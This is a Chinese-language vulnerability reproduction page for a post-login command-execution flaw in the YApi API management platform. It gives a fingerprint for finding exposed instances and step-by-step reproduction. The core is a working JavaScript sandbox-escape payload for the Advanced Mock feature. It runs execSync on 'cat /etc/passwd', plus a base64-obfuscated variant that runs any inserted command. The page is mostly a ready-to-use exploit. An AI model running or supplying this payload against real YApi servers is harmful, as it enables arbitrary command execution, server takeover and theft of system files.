


# YApi 接口管理平台 后台命令执行漏洞

## 漏洞描述

YApi 接口管理平台 后台存在命令执行漏洞，攻击者通过发送特定的请求可执行任意命令获取服务器权限

## 漏洞影响

<a-checkbox checked>YApi 接口管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="YApi"</a-checkbox></br>

## 漏洞复现

登录页面


首先需要注册账户并登录





添加项目，参数任意, 创建后点击 高级Mock 输入如下Payload

```javascript
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()

const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const base64Str = "Y29uc3QgciA9IHByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCJjaGlsZF9wcm9jZXNzIikuZXhlY1N5bmMoImhhaGhhaGFoYWhhaGEiKTtyZXR1cm4gcjsK"
const bufferer = FunctionConstructor("haha = new Buffer('" + base64Str + "', 'base64');return haha");
const haha = new bufferer();
const c = haha.toString()
const daima = c.replace("hahhahahahaha","whoami")//这里写命令
const daima_jiazai = FunctionConstructor(daima);
const jieguo = daima_jiazai()
mockJson = jieguo.toString();
```


预览处点击项目链接

